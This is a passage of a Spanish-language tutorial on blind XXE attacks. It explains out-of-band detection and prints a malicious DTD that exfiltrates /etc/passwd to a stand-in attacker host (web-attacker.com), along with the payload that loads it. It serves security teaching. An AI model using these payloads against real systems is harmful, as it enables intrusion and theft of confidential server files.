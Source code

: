 ```
```
Este payload XXE declara una entidad del parámetro de llamada XML "xxe" y luego usa la entidad dentro de la DTD. Esto provocará una búsqueda de DNS y una solicitud HTTP al dominio del atacante, verificando que el ataque fue exitoso.

### Explotación de XXE ciego para filtrar datos fuera de banda
La detección de una vulnerabilidad XXE ciega a través de técnicas de fuera de banda está muy bien, pero en realidad no demuestra cómo se podría explotar la vulnerabilidad. Lo que un atacante realmente quiere lograr es filtrar datos confidenciales. Esto se puede lograr a través de una vulnerabilidad ciega XXE, pero implica que alojamos una DTD maliciosa en un sistema que controlemos y luego invocar la DRD externa desde dentro del payload XXE en banda.

Un ejemplo de un DTD malicioso para exfiltrar el contenido del archivo "/etc/passwd" podría ser el siguiente:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Esta DTD lleva a cabo lo siguiente:
- Define una entidad de parámetro de llamada XML "file", que contiene el contenido del archivo "/etc/passwd".
- Define una entidad de parámetro de llamada XML "eval", que contiene una declaración dinámica de otra entidad de parámetro de llamada XML "exfiltrate". La entidad "exfiltrate" se evaluará realizando una solicitud HTTP a nuestro servidor web que contiene el valor de la entidad "file" dentro de la cadena de consulta de URL.
- Utiliza la entidad, lo que hace que se realice la declaración dinámica "eval" de la entidad "exfiltrate".
- Utiliza la entidad "exfiltrate", por lo que su valor se evalúa solicitando la URL especificada.

Luego, debemos alojar el DTD malicioso en un sistema que controlemos, normalmente cargando en nuestro propio servidor web. Por ejemplo, podremos entregar la DTD maliciosa en la siguiente URL:
```
http://web-attacker.com/malicious.dtd
```
Finalmente, debemos enviar el siguiente payload XXE a la aplicación vulnerable:
```
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
Este payload XXE declara una entidad de parámetro de llamada XML y luego usa la entidad dentro de la DTD. Esto hará que el analizador XML obtenga la DTD externa del servidor del atacante y la intérprete en línea. A continuación, se ejecutan los pasos definidos en la DTD maliciosa y el archivo "/etc/passwd" se transmite a nuestro servidor.

### Explotación de XXE ciego para recuperar datos a través de mensajes de error
Un enfoque alternativo para explotar XXE ciego es desencadenar un error de análisis XML donde el mensaje de error contiene los datos confidenciales que desea recuperar. Esto será efectivo si la aplicación devuelve el mensaje de error resultante dentro de la respuesta.
